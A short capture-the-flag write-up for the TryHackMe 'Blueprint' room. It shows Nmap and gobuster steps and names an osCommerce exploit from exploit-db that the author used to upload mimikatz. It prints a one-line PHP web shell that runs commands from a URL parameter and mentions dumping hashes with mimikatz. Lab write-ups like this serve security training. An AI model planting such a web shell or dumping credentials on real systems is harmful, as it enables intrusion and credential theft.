

# 8 - Blueprint

Room Link --> [https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

Nmap Results:


```bash
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```


All are dead-ends, except the port 8080.

`gobuster dir -u http://10.10.138.195:8080/ -x php,html,txt,aspx,asp -t 15 -q -w /usr/share/wordlists/dirb/common.txt` - dir search.

Search exploit-db.com for known exploits for "oscommerce", i used this one --> [https://www.exploit-db.com/exploits/44374](https://www.exploit-db.com/exploits/44374)

Edit the content of the script:

<figure><figcaption><p>1</p></figcaption></figure>

used it to upload mimikatz, and a php web cmd shell:&#x20;


```php
# to execute cmds from the webpage directly
<?php echo shell_exec($_GET["cmd"]); ?>
```


Use Mimikatz to dump the hashes and read the root flag.

<figure><figcaption><p>2</p></figcaption></figure>


